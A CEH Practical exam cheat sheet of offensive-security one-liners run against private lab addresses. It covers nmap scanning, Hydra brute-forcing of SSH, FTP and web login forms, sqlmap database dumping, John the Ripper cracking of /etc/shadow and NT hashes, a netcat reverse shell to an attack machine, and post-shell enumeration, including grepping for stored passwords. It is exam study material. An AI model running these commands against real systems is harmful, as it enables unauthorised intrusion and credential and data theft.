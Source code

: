 ```markdown
# 🚨 CEH Practical Exam: MUST-KNOW Tools & One-Liners

*Stop everything else and focus on these. These are the absolute essentials you will 100% need.*

---

## 1. NMAP (Network Discovery)
**Goal:** Find targets and open ports.

```bash
# Find live hosts on the network
nmap -sn 192.168.1.0/24

# Quick scan of a target (Top 1000 ports)
nmap 192.168.1.10

# Aggressive scan (OS, Version, Scripts)
nmap -A 192.168.1.10

# Scan all 65535 ports (SLOW)
nmap -p- 192.168.1.10

# Scan for common vulnerabilities
nmap --script vuln 192.168.1.10
```

---

## 2. HYDRA (Password Brute-Force)
**Goal:** Crack logins for SSH, FTP, and web forms.

```bash
# Brute-force SSH
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.10

# Brute-force FTP
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.10

# Brute-force a WEB LOGIN FORM (MOST IMPORTANT)
# FORMAT: "path:form_data:failure_message"
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.10 http-post-form "/login:username=^USER^&password=^PASS^:Invalid Login" -V
```
**Pro Tip:** Use Burp Suite to intercept the login request to find the exact `form_data` and `failure_message`.

---

## 3. SQLMAP (SQL Injection)
**Goal:** Automate SQLi to dump databases.

```bash
# Basic test on a parameter
sqlmap -u "http://192.168.1.10/page.php?id=1" --batch

# Get all databases
sqlmap -u "http://192.168.1.10/page.php?id=1" --dbs --batch

# Get tables from a specific database
sqlmap -u "http://192.168.1.10/page.php?id=1" -D mydatabase --tables --batch

# Dump everything from a table
sqlmap -u "http://192.168.1.10/page.php?id=1" -D mydatabase -T users --dump --batch
```
**Pro Tip:** The `--batch` flag makes it run automatically without prompting you.

---

## 4. JOHN THE RIPPER (Password Cracking)
**Goal:** Crack password hashes from files.

```bash
# Step 1: If you have /etc/passwd and /etc/shadow, combine them:
unshadow /etc/passwd /etc/shadow > unshadowed.txt

# Step 2: Crack the combined file with a wordlist:
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

# Crack a Windows NT hash (from a SAM dump)
john --format=nt --wordlist=rockyou.txt nt_hashes.txt

# Show all cracked passwords
john --show unshadowed.txt
```

---

## 5. NETCAT (Swiss Army Knife)
**Goal:**
- Connect to services
- Get a reverse shell

```bash
# Connect to a service (like telnet)
nc 192.168.1.10 25

# Listen for a reverse shell (ON YOUR ATTACK MACHINE)
nc -nvlp 4444

# On the target machine (if you have command injection), run:
nc 192.168.1.5 4444 -e /bin/bash   # Linux
nc.exe 192.168.1.5 4444 -e cmd.exe # Windows
```

---

## 6. Essential Linux Commands (If you get a shell)

```bash
# Who am I and what are my privileges?
whoami
id

# What version of Linux is this?
uname -a
cat /etc/*release

# Find files with SUID bit set (Privilege Escalation)
find / -perm -4000 2>/dev/null

# Can I run any commands as root?
sudo -l

# Look for passwords in files
grep -r "password" /var/www/ 2>/dev/null
```

---

## 7. Essential Windows Commands (If you get a shell)

```cmd
# Who am I and am I an admin?
whoami
net user %username%

# System information
systeminfo

# List users and groups
net user
net localgroup administrators

# Network information
ipconfig /all
arp -a
```

---

## 🧠 Exam Day Strategy

1.  **Nmap** the target to see what's open.
2.  **Web Ports (80,443,8080)?**
    - Browse the website.
    - Look for login forms -> use **Hydra**.
    - Look for search forms -> test for **SQLi** (`'`) -> use **SQLmap**.
3.  **SSH/FTP (21,22)?** -> use **Hydra**.
4.  **You get a hash?** -> use **John**.
5.  **You get command injection?** -> use **Netcat** for a reverse shell.

**Remember:**
- `-h` and `--help` are your friends. (e.g., `nmap -h`).
- The man pages are there: `man nmap`.
- **You can do this. This is all you need.** Now go practice them.
```
